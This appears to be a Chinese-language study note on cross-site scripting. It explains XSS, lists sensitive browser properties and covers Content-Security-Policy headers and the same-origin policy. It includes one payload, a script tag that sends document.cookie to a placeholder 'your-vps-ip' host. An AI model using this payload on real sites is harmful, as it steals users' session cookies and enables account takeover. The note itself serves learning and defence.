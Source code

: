 # XSS

## 基本思路

xss的目的在于前端网页中注入恶意js代码，使得攻击者可以利用访问该网页用户的身份进行恶意操作

可以利用的敏感信息

```
document.cookie
document.location.href
top.location.href
window.opener.location.href
...
```

最简单的poc
```js
<script>window.open("http://your-vps-ip/"+document.cookie)</script>
```
window.open 可以替换为 window.location.href

## iframe


## 图片
### PNG

参考链接 https://xz.aliyun.com/t/7530

## CSP相关

>CSP 的主要目标是减少和报告 XSS 攻击 ，XSS 攻击利用了浏览器对于从服务器所获取的内容的信任。恶意脚本在受害者的浏览器中得以运行，因为浏览器信任其内容来源，即使有的时候这些脚本并非来自于它本该来的地方。
>CSP通过指定有效域——即浏览器认可的可执行脚本的有效来源——使服务器管理者有能力减少或消除XSS攻击所依赖的载体。一个CSP兼容的浏览器将会仅执行从白名单域获取到的脚本文件，忽略所有的其他脚本 (包括内联脚本和HTML的事件处理属性)。
>https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP

简单的来说CSP就是浏览器在加载网页内外联的其他资源``js,css,img``等，会检测来源是不是来自可信的域，有效避免恶意插入到网页中的xss被执行

CSP策略通过服务端发送的``Content-Security-Policy`` HTTP头来指定

通过下面的几个示例能够快速理解csp的语法规则

示例 1
一个网站管理者想要所有内容均来自站点的同一个源 (不包括其子域名)

```
Content-Security-Policy: default-src 'self'
```

示例 2
一个网站管理者允许内容来自信任的域名及其子域名 (域名不必须与CSP设置所在的域名相同)

```
Content-Security-Policy: default-src 'self' *.trusted.com
```

示例 3
一个网站管理者允许网页应用的用户在他们自己的内容中包含来自任何源的图片, 但是限制音频或视频需从信任的资源提供者(获得)，所有脚本必须从特定主机服务器获取可信的代码.

```
Content-Security-Policy: default-src 'self'; img-src *; media-src media1.com media2.com; script-src userscripts.example.com
```

在这里，各种内容默认仅允许从文档所在的源获取, 但存在如下例外:

图片可以从任何地方加载(注意 "*" 通配符)。
多媒体文件仅允许从 media1.com 和 media2.com 加载(不允许从这些站点的子域名)。
可运行脚本仅允许来自于userscripts.example.com。

示例 4
一个线上银行网站的管理者想要确保网站的所有内容都要通过SSL方式获取，以避免攻击者窃听用户发出的请求。

```
Content-Security-Policy: default-src https://onlinebanking.jumbobank.com
```

该服务器仅允许通过HTTPS方式并仅从onlinebanking.jumbobank.com域名来访问文档。

示例 5
一个在线邮箱的管理者想要允许在邮件里包含HTML，同样图片允许从任何地方加载，但不允许JavaScript或者其他潜在的危险内容(从任意位置加载)。

```
Content-Security-Policy: default-src 'self' *.mailsite.com; img-src *
```

### 同源策略

如果两个 URL 的 protocol、port (如果有指定的话)和 host 都相同的话，则这两个 URL 是同源。这个方案也被称为“协议/主机/端口元组”，或者直接是 “元组”。（“元组” 是指一组项目构成的整体，双重/三重/四重/五重/等的通用形式）。


## CheatSheet

Cross-site scripting (XSS) cheat sheet：

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet